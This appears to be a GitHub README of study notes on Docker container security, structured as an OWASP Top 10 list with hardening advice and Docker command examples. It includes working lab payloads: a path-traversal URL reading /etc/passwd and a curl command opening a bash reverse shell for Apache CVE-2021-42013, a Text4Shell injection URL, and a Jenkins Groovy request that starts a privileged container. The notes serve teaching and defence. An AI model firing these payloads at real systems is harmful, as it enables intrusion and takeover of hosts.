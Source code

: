 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>

<details> 
<summary> 3: Insecure Container Configurations </summary>
  
- Misconfigurations may lead to disclose of sensitive date.
- Resolution: Implementation security measures like runtime security amd configuration management.
- Best practises: Implementation of Network segmentation, process isolation and orchestratrion (like kubernetes have default security measures)
- Best Practises: Add necessary access / remove unnecessary access like below examples:
drops capability to modify time -- ``` docker run --cap-drop=SYS_TIME -d my-image ```
Adds Network Bind Service -- ``` docker run --cap-add=NET_BIND_SERVICE -d my-image ```
- Conduct security assessments.
  
### Example: 
- We can set environment variables in Docker file. Setting credentails as Environment variables may disclose them.
</details>


<details> 
<summary> 4: Container Escape Vulnerabilities </summary>
  
- Breaking out from the container is known as "container escape". It allows an attacker to escape from a container to other container or underlying host and gain access to them.
- Option like --privileged may give access to all host systems. It is the same as executing a process with root privileges on the host machine.
``` docker run --privileged -it --name my-container my-image ```
- Resolution: Implementation security measures like runtime security and process isolation
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Best Practises: Keep containers updated.
- Conduct security assessments.

</details>

<details> 
<summary> 5: Inadequate Process Isolation </summary>
  
- Process running in different conmtainers may interact with each other. 
- This can lead to cross container compromise and data breaches.
- Resolution: Implementation process isolation through Namespace isolation (It Isolates Network, File system) and cgroups (Helps to limit resources that container can consume like CPU, memory, I/O)
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --pid when starting the container. Process runnin gunder the pid cannot access process on host system. 
``` docker run --pid=container -d my-image ```
- Limit CPU usage when starting container.
``` docker run --cpu-share=512 --memory=512m --memory-swap=1g -d my-image ```  

### Cross Container Compromise with SYS_PTRACE capability
- SYS_PTRACE is a linux kernal process / capability which traces and debugs other process. It can reads / modifies memory, registry and extract sensitive data.

</details>

<details>
<summary> 6: Inadequate Network Segmentation
  
- Can lead to Data exfilteration and unauthorised access.
- Containers are their networks are not properly isolated from eachother.
- Resolution: Implementation of network segmentation will isolate containers from each other.
- Virtual networks will Isolates Network traffic, firewalls controls inbound and Outbound network traffic and security groups will limit network traffic.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --network option ```docker run --network=my-network -d my-image```
</details>

<details>
<summary> 7: Inadequate Logging and Monitoring
  
- Logging helps in detecting and resposding to attacks.
- All important events in containers need to be logged.
- Resolution: Collect logs from host system, Conatinerns and orchestration platform.
- Best practises: Use SIEM tools to detect and respond in real-time.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
</details>

<details>
<summary> 8: Insecure Data Storage in Containers 
  
- May lead to data breaches. Sensitive data maynot be properly secured.
- Resolution: Encrypt sensitive data, use secure storage options like NAS (Network attached Storage) or SAN (Styorage area networks)
- Best practises: Use access controls like RBAC (role-based access control).
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- use option -v , while starting a container, to mount a host directory as a data volume inside a container.
``` docker run -v /data:/data -d my-image ```
- Even after container is deleted, mounted data will be secured in host system.
- Use NAS / SAN as data volume using --mount option. This allows more flexibility to specify the type of mount (like bind, read-only, consistency). 
``` docker run --mount type=bind, source=/data, target=/data -d my-image ```

</details>

### Mounting a Docker Socket (docker.sock)
- Mounting Docker socket will make docker daemon hosts's unix socker available inside the container.
- It allows container to interact with docker host and access docker api to run / manage containers.
- This is a security risk, as container will have full access to docker host. So it need to be done with trusted containers.
- Can use option -v / --mount in docker run command and specify path of docker socket in host and target path inside the container.
- It can start / stop containers, mnodify images, accessing hor file systems.
- If Attacker gain access to this container, he can use mounted docker socket to control docker deamon and take over host system.
- Best practise: Use a seperate container to manage docker deamon.

``` docker run -d -p 8080:8080 --rm -v /var/run/docker.scok:/var/run/docker.sock --name jenkins -t vuln-jenkins:latest ```

 ![image](https://github.com/Vamckis/Container-Security/assets/71128825/03976075-072a-4902-a561-179c2d394388)
 - Creating ngnix container with --privileged option
``` curl -k -4 -X POST "http://localhjost:8080//descriptorByName/org.jenkins.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d 'value=class abcd{abcd(){"docker run -P --rm --privileged --name ngnix".execute()}}' ``` </br>
![image](https://github.com/Vamckis/Container-Security/assets/71128825/a0f2868f-62da-462b-905a-d2d953111f4c)


### References:
- https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities
- https://github.com/ec-council-learning/OWASP-Top-10-for-Docker-Containers-and-Kubernetes-Security
